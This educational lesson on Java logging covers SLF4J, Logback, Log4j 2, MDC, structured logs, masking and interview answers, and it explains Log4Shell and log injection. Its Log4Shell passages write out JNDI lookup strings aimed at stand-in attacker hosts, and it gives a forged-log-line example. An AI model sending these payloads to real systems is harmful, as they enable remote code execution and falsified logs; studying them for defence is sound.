

Logging looks easy until something goes wrong in production:

- The line you need at 03:00 is missing.
- The line you do have contains a card number.
- The service is slow because of the logger.
- A library from 2021 turned a log message into a way to run an attacker's code.

Interviews ask about all of this:

- What is SLF4J, and how is it different from Logback or Log4j 2?
- What are the levels?
- Why use `{}` placeholders?
- What is MDC, and why does it disappear in a thread pool?
- How do you log in containers?
- What must you never log?
- What exactly was Log4Shell?

This lesson builds on [observability in Spring Boot](lesson:spring-observability#health), [dependency management](lesson:dependency-management#log4shell) and [Java exceptions](lesson:java-exceptions).

> **One sentence to remember:** *Log through SLF4J, tag every line with a correlation ID, never log secrets, and keep the logging library patched.*

## Facade and implementation {#facade}

Java has several logging libraries. So applications write their log calls against a **facade**, an API with no output of its own. **One implementation** sits underneath and does the actual writing.

Libraries you depend on also log through the facade. That way the application alone decides where all the output goes.



| Piece | Role |
| --- | --- |
| **SLF4J** (`slf4j-api`) | It is the facade. It gives you `Logger`, `LoggerFactory`, levels, `{}` placeholders and the MDC. |
| **Logback** | It is the native SLF4J implementation and the **Spring Boot default**. |
| **Log4j 2** | It is an independent logging framework. It has its own API (`log4j-api`) and its own implementation (`log4j-core`). |
| `java.util.logging` (JUL) | It is the logger built into the JDK. Applications rarely choose it. |
| **Bridges** | `jul-to-slf4j`, `jcl-over-slf4j`, `log4j-over-slf4j` and `log4j-to-slf4j` send calls from other logging APIs into SLF4J, so everything reaches one output. |

Three rules avoid the classic problems:

- **Put exactly one implementation on the classpath.** With two (for example Logback and `log4j-slf4j2-impl`), you get the warning "Class path contains multiple SLF4J providers", and one of them is picked at random.
- **Never use a bridge and its opposite together.** For example, `log4j-over-slf4j` with `slf4j-log4j12` sends events round in a loop forever.
- **Libraries depend on `slf4j-api` only**, never on an implementation.

Spring Boot's `spring-boot-starter-logging` brings Logback plus the `jul-to-slf4j` and `log4j-to-slf4j` bridges. So JUL calls and Log4j 2 API calls in third-party code all end up in Logback.

To use **Log4j 2** instead, exclude `spring-boot-starter-logging` and add `spring-boot-starter-log4j2`.

Try it in the lab: [Facade, implementation and bridges](lab:log-facade-bindings).

## Levels and the logger hierarchy {#levels}

| Level | Use for |
| --- | --- |
| `TRACE` | Very detailed flow. It is normally off. |
| `DEBUG` | Developer diagnostics, such as values and decisions. It is off in production. |
| `INFO` | Business and lifecycle events worth keeping, such as *payment accepted* or *service started*. |
| `WARN` | Something unexpected that the system handled, such as a retry, a fallback or a rejected input. |
| `ERROR` | An operation failed and someone needs to look at it. |

Log4j 2 adds `FATAL`. SLF4J has no `FATAL`, so use `ERROR` there.

Each logger has an **effective level**. A message is written only when its level is **at or above** that effective level.

Loggers form a **hierarchy by name**, just like packages. `com.bank.payments.TransferService` sits under `com.bank.payments`, which sits under `com.bank`, which sits under `ROOT`.

- A logger with no level of its own takes the level of its nearest ancestor that has one.
- By **additivity**, a logger's events also go to the appenders of its ancestors. (An **appender** is the part that writes events somewhere, such as the console or a file.)

```yaml
logging:
  level:
    root: INFO
    com.bank.payments: DEBUG          # this package and everything below it
    org.hibernate.SQL: DEBUG          # show the SQL
    org.springframework.web: WARN
```

Practical rules:

- Create one `private static final Logger log = LoggerFactory.getLogger(Xyz.class)` per class. Lombok's `@Slf4j` generates it for you. The logger name then tells you where a line came from.
- Use `ERROR` only when someone must act.
- Do not log an exception **and** rethrow it. Otherwise each layer logs the same failure again.

## Writing good log statements {#statements}

```java
log.info("Transfer {} accepted: {} {}", transfer.id(), amount, currency);   // placeholders
log.warn("Card service slow, using cached limits for card {}", cardId);
log.error("Transfer {} failed", transfer.id(), exception);                   // the exception goes LAST
```

- **Use `{}` placeholders, not concatenation.** `"a" + b` builds the string even when the level is off. With `{}`, the message is formatted only if the event is enabled.
- **The arguments are still evaluated, though.** So in `log.debug("x {}", expensive())`, the call to `expensive()` still runs.
- **For an expensive argument, delay it.** You have three options:
  - a **guard**: `if (log.isDebugEnabled())`,
  - the SLF4J 2 **fluent API**: `log.atDebug().addArgument(() -> expensive()).log("x {}")`,
  - a Log4j 2 **supplier**: `log.debug("x {}", () -> expensive())`.
- **Pass the exception as the last argument**, with no placeholder for it. Then the stack trace is logged. `log.error(e.getMessage())` loses the stack trace, and `e.printStackTrace()` skips the logging system altogether.
- **Log the identifier and the outcome**, not a story. Write `Transfer T-123 accepted`, not `It worked`.
- **The fluent API can add key-value pairs.** A JSON layout writes them as separate fields: `log.atInfo().addKeyValue("transferId", id).log("accepted")`.

## Inside Logback {#logback}

Logback has four main parts:

- A **Logger** creates events.
- **Appenders** write them, for example to the console, a file, a rolling file or a socket.
- An **Encoder** (or Layout) turns an event into text or JSON.
- **Filters**, together with the logger hierarchy, decide which events are kept.

```xml
<!-- src/main/resources/logback-spring.xml -->
<configuration>
  <springProperty scope="context" name="app" source="spring.application.name"/>

  <appender name="CONSOLE" class="ch.qos.logback.core.ConsoleAppender">
    <encoder>
      <pattern>%d{ISO8601} %-5level [%thread] [%X{correlationId}] %logger{36} - %msg%n</pattern>
    </encoder>
  </appender>

  <appender name="FILE" class="ch.qos.logback.core.rolling.RollingFileAppender">
    <file>logs/${app}.log</file>
    <rollingPolicy class="ch.qos.logback.core.rolling.SizeAndTimeBasedRollingPolicy">
      <fileNamePattern>logs/${app}.%d{yyyy-MM-dd}.%i.log.gz</fileNamePattern>
      <maxFileSize>100MB</maxFileSize>
      <maxHistory>14</maxHistory>
      <totalSizeCap>5GB</totalSizeCap>
    </rollingPolicy>
    <encoder><pattern>%d %-5level [%X{correlationId}] %logger - %msg%n</pattern></encoder>
  </appender>

  <appender name="ASYNC" class="ch.qos.logback.classic.AsyncAppender">
    <queueSize>8192</queueSize>
    <discardingThreshold>0</discardingThreshold>   <!-- 0: never drop events when the queue is full -->
    <neverBlock>false</neverBlock>
    <appender-ref ref="FILE"/>
  </appender>

  <springProfile name="prod"><root level="INFO"><appender-ref ref="ASYNC"/></root></springProfile>
  <springProfile name="!prod"><root level="DEBUG"><appender-ref ref="CONSOLE"/></root></springProfile>
</configuration>
```

- **Name the file `logback-spring.xml`**, not `logback.xml`. Then Spring Boot can supply `<springProfile>` and `<springProperty>`, and it loads the configuration at the right moment.
- **Rolling** stops log files from filling the disk. **Rolling** means starting a new file by time or size. Compress the old files, keep `maxHistory` days of them, and cap the **total size**.
- **Keep the pattern cheap.** A pattern such as `%d %-5level [%thread] %logger{36} - %msg%n` costs little. But `%L` (line), `%M` (method) and `%C` (caller class) must walk the call stack for every event. They are slow, so avoid them in production.

## Inside Log4j 2 {#log4j2}

Log4j 2 has a **LoggerContext** and a **Configuration**. The configuration holds **Loggers**, **Appenders**, **Layouts** and **Filters**. It is read from `log4j2.xml` (or YAML, JSON or properties), and it can be **reloaded while the app runs** (`monitorInterval`).

```xml
<Configuration status="WARN" monitorInterval="30">
  <Appenders>
    <Console name="Console"><JsonTemplateLayout eventTemplateUri="classpath:EcsLayout.json"/></Console>
    <RollingFile name="File" fileName="logs/app.log" filePattern="logs/app-%d{yyyy-MM-dd}-%i.log.gz">
      <PatternLayout pattern="%d %-5p [%X{correlationId}] %c{1.} - %m%n"/>
      <Policies><TimeBasedTriggeringPolicy/><SizeBasedTriggeringPolicy size="100MB"/></Policies>
      <DefaultRolloverStrategy max="14"/>
    </RollingFile>
  </Appenders>
  <Loggers>
    <Root level="info"><AppenderRef ref="Console"/></Root>
    <Logger name="com.bank.payments" level="debug" additivity="false"><AppenderRef ref="File"/></Logger>
  </Loggers>
</Configuration>
```

What sets Log4j 2 apart:

- **Async loggers.** They are built on the **LMAX Disruptor**, a lock-free ring buffer. Add `com.lmax:disruptor` and set `-Dlog4j2.contextSelector=org.apache.logging.log4j.core.async.AsyncLoggerContextSelector`. Then **all loggers become asynchronous**, with very high throughput and low latency.
- **Garbage-free logging.** On steady-state paths it creates no new objects, which keeps the garbage collector quiet in services where latency matters.
- **Lookups.** These are placeholders such as `${env:HOST}`, `${ctx:userId}` and `${sys:...}` that Log4j fills in. They are powerful, and they were also the root of Log4Shell ([below](#log4shell)).

### Logback or Log4j 2? {#compare}

| | Logback | Log4j 2 |
| --- | --- | --- |
| Relation to SLF4J | It is the native implementation. | It has its own API, plus an adapter to SLF4J. |
| Spring Boot | It is the **default**. | It is supported through a starter. |
| Async | `AsyncAppender` uses a blocking queue. | Async loggers use a ring buffer and are much faster under load. |
| Reload config | Yes, with `scan`. | Yes, with `monitorInterval`. |
| Garbage-free | No. | Yes, in many paths. |
| JSON | logstash-logback-encoder, or Boot structured logging. | `JsonTemplateLayout`. |
| Typical choice | Most Spring Boot services. | Very high log volume, or a team that already runs Log4j 2. |

For most services, the answer is "keep the Boot default, Logback". The reason is **simplicity and less exposure**. The Log4Shell bug lived in `log4j-core`, which a default Spring Boot application did not even contain.

## Spring Boot configuration {#boot}

```yaml
logging:
  level:
    root: INFO
    com.bank: INFO
  file:
    name: logs/payments.log          # prefer stdout in containers
  logback:
    rollingpolicy:
      max-file-size: 100MB
      max-history: 14
  pattern:
    console: "%d{ISO8601} %-5level [%X{traceId:-}] %logger{36} - %msg%n"
  structured:
    format:
      console: ecs                   # Boot 3.4+: also logstash and gelf
  group:
    persistence: org.hibernate.SQL, org.hibernate.orm.jdbc.bind
```

- **You can change a level while the app runs**, with no restart, through Actuator. Send `POST /actuator/loggers/com.bank.payments` with `{"configuredLevel":"DEBUG"}`. To reset it, post `null`. Protect this endpoint, because it is a switch for diagnostics in production.
- Boot installs the **JUL bridge**, so libraries that use `java.util.logging` also appear in your output.
- Set `logging.config=classpath:logback-spring.xml` only if you move the file. Otherwise Boot finds it on its own.

## MDC and correlation IDs {#mdc}

The **MDC** (Mapped Diagnostic Context) is a small key-value map that belongs to the current thread. The layout can print its values on every line, for example with `%X{correlationId}`.

A **correlation ID** is one id given to a request and printed on every line that request writes. Set it **once, at the edge** of the service. Then a search for that one ID returns the whole story across classes. If you also pass the ID on to other services, it returns the story across services too.

```java
@Component
class CorrelationFilter extends OncePerRequestFilter {
    @Override
    protected void doFilterInternal(HttpServletRequest req, HttpServletResponse res, FilterChain chain) throws ServletException, IOException {
        String id = Optional.ofNullable(req.getHeader("X-Correlation-Id")).orElseGet(() -> UUID.randomUUID().toString());
        MDC.put("correlationId", id);
        res.setHeader("X-Correlation-Id", id);
        try {
            chain.doFilter(req, res);
        } finally {
            MDC.clear();                 // threads are reused: never leave data behind
        }
    }
}
```

**The MDC is a `ThreadLocal`**, a variable that holds a separate value for each thread. That causes two classic bugs:

- **Lost context.** Work handed to another thread starts with an **empty** MDC, so its lines have no correlation ID. This happens with `@Async`, an executor, `CompletableFuture.supplyAsync` or a scheduled task. The fixes:
  - copy the MDC into the task with a `TaskDecorator` (using `MDC.getCopyOfContextMap()`),
  - or use **Micrometer context propagation**,
  - and in Reactor, use the Reactor `Context` and turn on automatic context propagation.
- **Leaked context.** Pool threads are reused. If a thread's MDC is not cleared in `finally`, it keeps the **previous request's** ID and stamps it on the next request's lines.

With **Micrometer Tracing**, `traceId` and `spanId` go into the MDC for you. They are passed between services in the `traceparent` header, so each log line links to its trace (see [distributed tracing](lesson:distributed-tracing) and [observability](lesson:spring-observability)).

Try it in the lab: [The correlation ID that disappears](lab:log-mdc-async).

## Structured logging {#structured}

Text logs are for people. **JSON logs are for machines.** Each event is **one line of JSON** with named fields. The log platform can then index and query them, for example `level=ERROR AND correlationId=...`.

```json
{"@timestamp":"2026-11-26T03:12:04.123Z","level":"ERROR","logger":"com.bank.payments.TransferService",
 "message":"Transfer T-123 failed","correlationId":"9f2c...","transferId":"T-123",
 "error.type":"java.net.SocketTimeoutException","error.stack_trace":"java.net.SocketTimeoutException: ...\n\tat ..."}
```

- Spring Boot 3.4 and later has this built in: `logging.structured.format.console=ecs`.
- Before 3.4, use `logstash-logback-encoder` or Log4j 2's `JsonTemplateLayout`.
- The stack trace sits **inside** the one event. So a multi-line stack trace never gets split into separate entries in the collector.

In **containers and Kubernetes**, write JSON to **stdout**, not to files:

1. The container runtime captures stdout.
2. A collector (Fluent Bit, Vector or the CloudWatch agent) ships it.
3. The pod needs no disk and no file rotation.

Add `service`, `version` and `environment` fields, so one query can cover all instances ([Kubernetes](lesson:kubernetes)).

## What to log, and what never to log {#policy}

Never log these:

- passwords, tokens, API keys and session IDs,
- full card numbers (the **PAN**, primary account number), CVVs and PINs,
- national ID numbers,
- whole request bodies that may contain any of the above.

Log identifiers such as `accountId` and `transferId`, not the personal data behind them.

The reason: logs are copied to many systems, kept for months and read by many people. Card rules (PCI DSS) and personal-data law (such as Singapore's PDPA) apply to logs like to any other data store.

- **Mask at the source.** Use a custom masking converter in the layout, a `toString()` that leaves out sensitive fields, and DTOs that exclude them. Do not rely only on a regex run over the final text.
- **Watch for log injection.** User input that contains line breaks (`\r\n`) can forge extra log lines, for example `... ok\nINFO Admin login succeeded`. JSON layouts escape line breaks. With text layouts, clean or encode the values you log.
- **Audit logs are not application logs.** A bank keeps a separate **audit trail**: who did what, when and from where. It uses its own logger (`AUDIT`, with `additivity=false`) and writes to a protected, append-only store with its own retention. It never relies on a rolling debug log.
- **Keep level discipline.** `INFO` should be quiet enough to read. `DEBUG` is off in production. Switch it on only for a while, for one package, through Actuator.

## Performance {#performance}

- **Synchronous logging does I/O on the request thread.** A slow disk or a blocked stdout pipe slows every request. An **async appender** (Logback) or **async loggers** (Log4j 2) hand events to a background thread through a queue instead.
- **An async queue needs a plan for when it fills up.** It can **block**, which is safe but can stall the application. Or it can **discard**, which keeps latency low but **loses events**.
  - Logback's `AsyncAppender` throws away `TRACE`, `DEBUG` and `INFO` events once the queue is 80 percent full, unless `discardingThreshold` is `0`.
  - Set `neverBlock` on purpose, not by accident.
  - Async logging can also **lose the last events in a crash**.
- **Volume costs money.** A `DEBUG` line inside a hot loop, or logging every request body, fills disks and the log platform bill. It also buries the line you need. Sample or aggregate events that happen very often.
- **Stack traces and caller data are expensive.** Log a stack trace once, in the layer that handles the error.

Try it in the lab: [Slow disk, async appender](lab:log-async-appender).

## Log4Shell {#log4shell}

**CVE-2021-44228** was published in December 2021 with the highest severity score, CVSS 10.0. It affected **Log4j 2 versions 2.0-beta9 to 2.14.1**.

The cause: Log4j 2 ran **lookups** inside the **message text** it was asked to log. One lookup was `${jndi:...}`. It makes a **JNDI** call (Java's naming and directory API) to a server the attacker chooses. The result was **remote code execution** from a single log line.

How the attack worked:

1. The attacker sends `${jndi:ldap://evil.example/a}` in anything the application logs, such as a header (`User-Agent`), a username or a form field.
2. The application logs it, for example with `log.info("Login failed for {}", username)`.
3. Log4j sees `${jndi:...}`, contacts the attacker's LDAP server, and loads the **class** that server returns.
4. That class runs inside the application's JVM.

Why it was so bad:

- It needed **no login**.
- The trigger was a **string that any user controls**.
- `log4j-core` was everywhere, often as a transitive dependency or hidden inside a vendor's fat jar.
- Teams could not quickly find where it was.

The fixes came in four releases:

| Release | What it fixed |
| --- | --- |
| **2.15.0** | It restricted JNDI and turned message lookups off by default. |
| **2.16.0** | It removed message lookups and turned JNDI off. |
| **2.17.0** | It fixed a denial of service caused by recursive lookups (CVE-2021-45105). |
| **2.17.1** | It fixed a further issue in the JDBC appender (CVE-2021-44832). |

So the target is **2.17.1 or later**. On Java 7 it is 2.12.4, and on Java 6 it is 2.3.2.

Temporary mitigations, until you can upgrade:

- set `-Dlog4j2.formatMsgNoLookups=true` (version 2.10 and later),
- or delete `JndiLookup.class` from the jar,
- plus **egress filtering**, so servers cannot call out to the internet,
- and a WAF rule that blocks `${jndi:`.

The lessons that last:

- Keep an **SBOM** (software bill of materials, a list of every library in each build) and scan the dependency tree (see [dependency management](lesson:dependency-management#log4shell)).
- **Do not put data you do not control into places that interpret it.**
- Turn on as few features as you need.
- Restrict **outbound** traffic from servers.
- Be able to **patch every service within hours**.

Try it in the lab: [A log line that runs code](lab:log4shell-jndi).

## Testing log output {#testing}

- Spring Boot's **`OutputCaptureExtension`** (`CapturedOutput`) lets a test check what was written. Use it for the few lines that matter, such as a security event or an audit entry.
- With Logback, attach a **`ListAppender`** to the logger. Then assert on the list of `ILoggingEvent`s: their level, message and MDC.
- Test that **sensitive values are masked**, and that the filter sets and clears the MDC.
- Do not assert on every `INFO` line. That freezes the wording and makes refactoring painful.

## A routine for a bank team {#routine}

1. **Use the SLF4J API in code, with one implementation** (Logback by default). Add bridges for the other APIs, and check the exclusions in the dependency tree.
2. **Write JSON to stdout** in containers, with `service`, `version` and `environment` fields.
3. **Put a correlation or trace ID in the MDC** at the edge. Clear it in `finally`, and pass it across threads and services.
4. **Use placeholders and put exceptions last.** Log each failure once.
5. **Mask sensitive data and keep a "never log" list.** Enforce both in code review and in tests. Send audit events to a separate logger and store.
6. **Log asynchronously, with a full-queue policy you chose on purpose.** Use no caller-data patterns in production.
7. **Change levels at run time** through a protected Actuator endpoint. Turn on `DEBUG` only for a while.
8. **Keep logging libraries patched**, keep an SBOM, and scan in the pipeline.

## Cheat sheet {#cheatsheet}

| Need | Use |
| --- | --- |
| Logger | `LoggerFactory.getLogger(X.class)` or Lombok `@Slf4j` |
| Message | `log.info("Transfer {} accepted", id)` |
| Exception | `log.error("failed {}", id, ex)`, with the exception last and no placeholder |
| Expensive argument | `isDebugEnabled`, the fluent API or a supplier |
| Boot default | SLF4J + Logback (`spring-boot-starter-logging`) |
| Switch to Log4j 2 | Exclude starter-logging and add `spring-boot-starter-log4j2`. |
| Change level live | `POST /actuator/loggers/<name>` |
| Correlation | `MDC.put` in a filter, `%X{id}` in the pattern, `MDC.clear()` in `finally` |
| JSON | `logging.structured.format.console=ecs` (Boot 3.4+) |
| Rolling | `SizeAndTimeBasedRollingPolicy`, `maxHistory`, `totalSizeCap` |
| Async | Logback `AsyncAppender`, or Log4j 2 async loggers (Disruptor) |
| Log4Shell fix | Log4j 2 **2.17.1 or later** |

## Interview questions {#questions}

### [basic] What is SLF4J and how does it differ from Logback or Log4j 2? {#slf4j-q}

SLF4J is a **facade**, and Logback and Log4j 2 are **implementations**.

- SLF4J is an API (`Logger`, placeholders, MDC). It writes nothing by itself.
- Logback and Log4j 2 actually format and write the events.
- Application and library code call the SLF4J API, and one implementation is chosen when the app is deployed.

So you can change the implementation without touching the code.

### [basic] What are the logging levels and what should each be used for? {#levels-q}

From most to least detailed: `TRACE`, `DEBUG`, `INFO`, `WARN` and `ERROR`.

- `TRACE` and `DEBUG` are for diagnostics. They are off in production.
- `INFO` is for business and lifecycle events.
- `WARN` is for surprises the system handled, such as a retry or a fallback.
- `ERROR` is for failures that need someone to act.

Log4j 2 also has `FATAL`. An event is written only if its level is at or above the logger's effective level.

### [basic] Why use `{}` placeholders instead of string concatenation? {#placeholders-q}

Because the message is built only if the level is enabled.

- A disabled `debug` call with placeholders costs almost nothing.
- Concatenation builds the string every time, even when nothing is written.

But the arguments are still evaluated. So wrap an expensive argument in a guard, a supplier or the fluent API.

### [basic] How do you log an exception correctly? {#exception-q}

Pass it as the **last argument**, with no placeholder: `log.error("Transfer {} failed", id, ex)`. Then the stack trace is logged.

Avoid three mistakes:

1. Do not use `e.printStackTrace()`.
2. Do not log only `e.getMessage()`, which loses the stack trace.
3. Do not log and rethrow, which logs the same failure once per layer.

### [intermediate] What is the logger hierarchy and how is the effective level decided? {#hierarchy-q}

Loggers are named like packages, and a logger with no level takes the level of its nearest ancestor that has one.

- `com.bank.payments.TransferService` is a child of `com.bank.payments`, then `com.bank`, then the root.
- So setting `com.bank.payments` to `DEBUG` affects everything under it.
- By additivity, a logger's events also go to its ancestors' appenders, unless `additivity` is false.

### [intermediate] You get "multiple SLF4J providers" or logs that vanish after adding a dependency. What happened? {#conflict-q}

Either two implementations are on the classpath (for example Logback and `log4j-slf4j2-impl`), or a bridge and its opposite form a loop.

To fix it:

1. Print the dependency tree (`mvn dependency:tree` or `gradle dependencies`).
2. Find the library that brought in the second implementation.
3. Exclude it, so exactly one implementation remains.

Libraries should depend on `slf4j-api` only.

### [intermediate] How do you switch a Spring Boot application from Logback to Log4j 2? {#switch-q}

Swap the starters and the configuration file.

1. Exclude `spring-boot-starter-logging` from the starters.
2. Add `spring-boot-starter-log4j2`.
3. Provide `log4j2-spring.xml` instead of `logback-spring.xml`.

The code does not change, because it uses SLF4J. Keep `log4j-core` at a patched version.

### [intermediate] What is MDC and why does it lose data in a thread pool? {#mdc-q}

The MDC (Mapped Diagnostic Context) is a key-value map per thread, and the layout prints its entries on each line (`%X{correlationId}`). A filter sets it once, so all lines of a request can be linked.

It loses data because it is a `ThreadLocal`:

- Work handed to another thread starts with an empty MDC.
- A pool thread that is not cleared keeps the previous request's data.

Copy the context with a `TaskDecorator` or with context propagation, and always clear it in `finally`.

### [intermediate] Why use structured (JSON) logging, and how do you do it in Spring Boot? {#json-q}

Because machines can search it.

- One event per line of JSON, with fields, lets the platform index and query logs by level, correlation ID or transfer ID.
- A stack trace stays inside one event.

How: Boot 3.4 has `logging.structured.format.console=ecs`. Earlier versions use `logstash-logback-encoder` or Log4j 2's `JsonTemplateLayout`. In containers, write it to stdout and let a collector ship it.

### [intermediate] Why log to stdout in Kubernetes instead of a file? {#stdout-q}

Because the platform already collects stdout.

- The container runtime captures stdout and stderr, and a collector on each node ships them.
- The pod needs no writable disk, no rotation and no cleanup.
- Files inside a container disappear with it, and reading them needs a sidecar container.

Use JSON, so that multi-line stack traces stay in one event.

### [intermediate] How do you change a log level in production without redeploying? {#runtime-q}

Through the Actuator `loggers` endpoint. Send `POST /actuator/loggers/com.bank.payments` with `{"configuredLevel":"DEBUG"}`, and post `null` to reset it.

Be careful with it:

- Change one package only.
- Change it only for a while.
- Secure the endpoint, because it exposes diagnostics and can flood the logs.

### [intermediate] What must you never log in a bank, and how do you enforce it? {#never-q}

Never log secrets or personal data. That means passwords, tokens and keys, full card numbers, CVVs and PINs, national IDs, and whole request bodies that may contain them. Log identifiers instead.

Enforce it in several ways:

- masking in the layout,
- `toString()` methods and DTOs that leave out sensitive fields,
- code review rules,
- tests that check the masking,
- and scans of the log platform.

Audit events go to a separate, protected, append-only store.

### [deep] What is log injection and how do you prevent it? {#injection-q}

Log injection is forging log lines through user input.

- Input with line breaks or control characters can add fake lines, such as `\nINFO Admin login succeeded`.
- This can hide or fake events, and it can break log parsers.

To prevent it, use a JSON layout, which escapes these characters. With a text layout, clean or encode any user input you log. This is one more reason to prefer structured logs.

### [deep] How can logging slow an application down, and how do you reduce it? {#perf-q}

In five ways, each with a fix:

| Cause | Fix |
| --- | --- |
| Synchronous appenders do I/O on the request thread, so a slow disk or a blocked pipe slows every request. | Use async appenders or async loggers, with a full-queue policy chosen on purpose. |
| String building and `toString()` run even for disabled levels. | Use placeholders and guards. |
| Caller-data patterns such as `%L` and `%M` walk the stack. | Avoid caller data in production. |
| Stack traces are expensive. | Log each stack trace once. |
| Volume itself costs money. | Sample events that happen very often. |

### [deep] What is the trade-off of asynchronous logging? {#async-q}

It takes logging off the request thread, but the queue has a fixed size.

When the queue is full, it must do one of two things:

- **Block.** The application stalls.
- **Discard.** Events are lost. By default, Logback throws away `TRACE` to `INFO` events once the queue is 80 percent full.

Events still in the queue can also be lost in a crash. So choose the policy on purpose. For an audit trail, never drop events. For debug noise, dropping is fine.

### [deep] What was Log4Shell and how did it work? {#log4shell-q}

It was CVE-2021-44228, a CVSS 10 flaw in Log4j 2 versions 2.0-beta9 to 2.14.1.

How it worked:

1. Log4j ran lookups inside the message text it logged.
2. An attacker sent a string such as `${jndi:ldap://attacker/a}` in anything that gets logged, such as a header or a username.
3. Log4j queried the attacker's server through JNDI and loaded the class it returned.
4. That gave remote code execution, with no login needed.

The fix was to upgrade to 2.17.1 or later. Temporary mitigations were the `log4j2.formatMsgNoLookups` flag, removing `JndiLookup.class`, and blocking outbound traffic.

### [deep] Why was a default Spring Boot application not vulnerable to Log4Shell, and what should you still check? {#boot-log4shell-q}

Because the default is Logback. The `log4j-to-slf4j` bridge contains only the Log4j API, not `log4j-core`, where the bug was.

An application was still vulnerable in two cases:

- it used `spring-boot-starter-log4j2`,
- or a dependency, often a vendor jar, bundled `log4j-core`.

So check the full dependency tree, every fat jar and every container image. Keep an SBOM and scan in CI.

### [deep] How would you respond within hours if a new critical logging CVE is announced? {#response-q}

Find, contain, then fix.

1. **Find.** Query the SBOMs and the registry scans to list every affected service and version.
2. **Contain.** As a stopgap, apply the vendor's mitigation flag or remove the vulnerable class. Block outbound traffic from servers and add a WAF rule.
3. **Fix.** Upgrade in each build through a forced version constraint or a BOM. Redeploy by priority, internet-facing services first, and verify with a scan.

Afterwards, review why finding and patching took as long as they did.

### [coding] Add a correlation ID filter and propagate it to `@Async` work. {#coding-mdc}

```java
@Configuration
@EnableAsync
class AsyncConfig implements AsyncConfigurer {
    @Override
    public Executor getAsyncExecutor() {
        ThreadPoolTaskExecutor executor = new ThreadPoolTaskExecutor();
        executor.setCorePoolSize(8);
        executor.setMaxPoolSize(16);
        executor.setQueueCapacity(200);
        executor.setTaskDecorator(task -> {
            Map<String, String> context = MDC.getCopyOfContextMap();     // captured on the caller's thread
            return () -> {
                Map<String, String> previous = MDC.getCopyOfContextMap();
                try {
                    if (context != null) MDC.setContextMap(context); else MDC.clear();
                    task.run();
                } finally {
                    if (previous != null) MDC.setContextMap(previous); else MDC.clear();
                }
            };
        });
        executor.initialize();
        return executor;
    }
}
```

Use it together with the `CorrelationFilter` above, which sets the ID and clears it in `finally`.

How it works:

1. The decorator runs when the task is submitted, so it captures the caller's MDC.
2. On the pool thread, it puts that MDC in place for the duration of the task.
3. Afterwards it puts back whatever the thread had before.

So a pool thread never leaks one request's ID into the next.

### [coding] Configure Logback with rolling files, an async appender that never drops audit events, and a separate audit logger. {#coding-logback}

```xml
<configuration>
  <appender name="APP" class="ch.qos.logback.core.rolling.RollingFileAppender">
    <file>logs/app.log</file>
    <rollingPolicy class="ch.qos.logback.core.rolling.SizeAndTimeBasedRollingPolicy">
      <fileNamePattern>logs/app.%d{yyyy-MM-dd}.%i.log.gz</fileNamePattern>
      <maxFileSize>100MB</maxFileSize><maxHistory>14</maxHistory><totalSizeCap>5GB</totalSizeCap>
    </rollingPolicy>
    <encoder><pattern>%d %-5level [%X{correlationId}] %logger{36} - %msg%n</pattern></encoder>
  </appender>

  <appender name="AUDIT_FILE" class="ch.qos.logback.core.rolling.RollingFileAppender">
    <file>logs/audit.log</file>
    <rollingPolicy class="ch.qos.logback.core.rolling.TimeBasedRollingPolicy">
      <fileNamePattern>logs/audit.%d{yyyy-MM-dd}.log.gz</fileNamePattern><maxHistory>2555</maxHistory>
    </rollingPolicy>
    <encoder><pattern>%d %X{correlationId} %msg%n</pattern></encoder>
  </appender>

  <appender name="ASYNC_AUDIT" class="ch.qos.logback.classic.AsyncAppender">
    <queueSize>4096</queueSize><discardingThreshold>0</discardingThreshold><neverBlock>false</neverBlock>
    <appender-ref ref="AUDIT_FILE"/>
  </appender>

  <logger name="AUDIT" level="INFO" additivity="false"><appender-ref ref="ASYNC_AUDIT"/></logger>
  <root level="INFO"><appender-ref ref="APP"/></root>
</configuration>
```

What each part does:

- **Application logs** roll by size and by day, with a cap on the total size.
- **The `AUDIT` logger** has `additivity="false"`, so audit events never mix into the application log.
- **Audit files are kept for years.** The retention comes from the regulator's rules, so `2555` days is only an example.
- **The audit async appender** has `discardingThreshold=0` and `neverBlock=false`, so audit events are **never dropped**. The cost is that the caller blocks if the queue ever fills.
